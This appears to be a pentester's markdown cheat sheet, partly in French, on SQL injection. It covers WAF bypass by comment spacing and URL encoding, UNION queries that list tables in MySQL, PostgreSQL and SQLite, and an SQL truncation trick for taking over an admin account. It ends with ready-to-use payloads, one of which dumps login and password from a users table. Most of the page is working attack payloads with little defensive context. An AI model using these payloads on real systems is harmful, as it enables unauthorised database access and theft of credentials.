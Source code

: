 
# SQL injection

- WAF bypass

/**/ fonctionne comme un espace

    espace 	%20 	%20
    ! 	%21 	%21
    " 	%22 	%22
    \#  %23 	%23
    $ 	%24 	%24
    % 	%25 	%25
    & 	%26 	%26
    ' 	%27 	%27
    ( 	%28 	%28
    ) 	%29 	%29
    \* 	%2A 	%2A
    \+ 	%2B 	%2B
    , 	%2C 	%2C
    \- 	%2D 	%2D
    . 	%2E 	%2E
    / 	%2F 	%2F
    0 	%30 	%30
    1 	%31 	%31
    2 	%32 	%32
    3 	%33 	%33
    4 	%34 	%34
    5 	%35 	%35
    6 	%36 	%36
    7 	%37 	%37
    8 	%38 	%38
    9 	%39 	%39
    : 	%3A 	%3A
    ; 	%3B 	%3B
    < 	%3C 	%3C
    = 	%3D 	%3D
    \> 	%3E 	%3E
    ? 	%3F 	%3F
    @ 	%40 	%40
    A 	%41 	%41
    B 	%42 	%42
    C 	%43 	%43
    D 	%44 	%44
    E 	%45 	%45
    F 	%46 	%46
    G 	%47 	%47
    H 	%48 	%48
    I 	%49 	%49
    J 	%4A 	%4A
    K 	%4B 	%4B
    L 	%4C 	%4C
    M 	%4D 	%4D
    N 	%4E 	%4E
    O 	%4F 	%4F
    P 	%50 	%50
    Q 	%51 	%51
    R 	%52 	%52
    S 	%53 	%53
    T 	%54 	%54
    U 	%55 	%55
    V 	%56 	%56
    W 	%57 	%57
    X 	%58 	%58
    Y 	%59 	%59
    Z 	%5A 	%5A
    [ 	%5B 	%5B
    \ 	%5C 	%5C
    ] 	%5D 	%5D
    ^ 	%5E 	%5E
    _ 	%5F 	%5F
    \` 	%60 	%60
    a 	%61 	%61
    b 	%62 	%62
    c 	%63 	%63
    d 	%64 	%64
    e 	%65 	%65
    f 	%66 	%66
    g 	%67 	%67
    h 	%68 	%68
    i 	%69 	%69
    j 	%6A 	%6A
    k 	%6B 	%6B
    l 	%6C 	%6C
    m 	%6D 	%6D
    n 	%6E 	%6E
    o 	%6F 	%6F
    p 	%70 	%70
    q 	%71 	%71
    r 	%72 	%72
    s 	%73 	%73
    t 	%74 	%74
    u 	%75 	%75
    v 	%76 	%76
    w 	%77 	%77
    x 	%78 	%78
    y 	%79 	%79
    z 	%7A 	%7A
    { 	%7B 	%7B
    | 	%7C 	%7C
    } 	%7D 	%7D
    ~ 	%7E 	%7E
    	%7F 	%7F
    ` 	%80 	%E2%82%AC

- Retreive tables

1.  Mysql

        union select group_concat(table_name) from information_schema.tables 
		
3. PostgreSQL

       UNION SELECT * FROM string_agg(tablename, ',') WHERE schemaname != 'pg_catalog'  AND schemaname != 'information_schema';

3. SQLite

       union select group_concat(name) from sqlite_master WHERE type='table'

- SQL Truncation

e.g. :

    Update Users set password = $password where username= $login
	login = varchar(25)
	with $login = 'admin(blankspace x 19)x'

- Usefull injections
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
'||' 
UNION SELECT login,password FROM users WHERE login='admin';-- 
